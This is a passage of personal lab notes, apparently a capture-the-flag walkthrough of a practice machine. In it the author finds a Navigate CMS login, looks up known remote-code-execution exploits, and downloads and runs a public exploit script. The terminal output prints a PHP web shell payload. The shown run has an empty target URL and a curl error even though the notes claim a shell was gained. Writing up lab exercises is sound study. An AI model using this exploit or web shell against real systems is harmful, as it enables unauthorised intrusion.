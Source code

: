 - We see that there is 301 redirection which is the `navigate`
- Lets access the `http://blackpearl.tcm/navigate`

![[Pasted image 20240710132114.png]]

- The navigate cms login page appeared
- Check Google if there is a vulnerability in the navigate. Here are the relevant sites checked:
	- https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
	- https://www.exploit-db.com/exploits/45561
	- https://github.com/0x4r2/Navigate-CMS-RCE-Unauthenticated-
- We can run the exploit manually using the https://github.com/0x4r2/Navigate-CMS-RCE-Unauthenticated-

```
┌──(root㉿kali)-[~]
└─# wget https://raw.githubusercontent.com/0x4r2/Navigate-CMS-RCE-Unauthenticated-/main/navigate_RCE.sh

./navigate_RCE.sh navigator.hm
--2024-07-10 10:26:21--  https://raw.githubusercontent.com/0x4r2/Navigate-CMS-RCE-Unauthenticated-/main/navigate_RCE.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1000 [text/plain]
Saving to: ‘navigate_RCE.sh’

navigate_RCE.sh                        100%[============================================================================>]    1000  --.-KB/s    in 0s      

2024-07-10 10:26:22 (85.7 MB/s) - ‘navigate_RCE.sh’ saved [1000/1000]

┌──(root㉿kali)-[~]
└─# chmod u+x navigate_RCE.sh 
┌──(root㉿kali)-[~]
└─# ./navigate_RCE.sh                             

 URL:  http:///

 Sesion: 

Payload:
<?php system($_GET['cmd']);?>

Subiendo Exploit ...
curl: (3) URL using bad/illegal format or missing URL

Obteniendo webshell...
webshell$ 

```
- We landed to the webshell shell by doing it manually using the script from the github site. Now we will also try the metasploit.
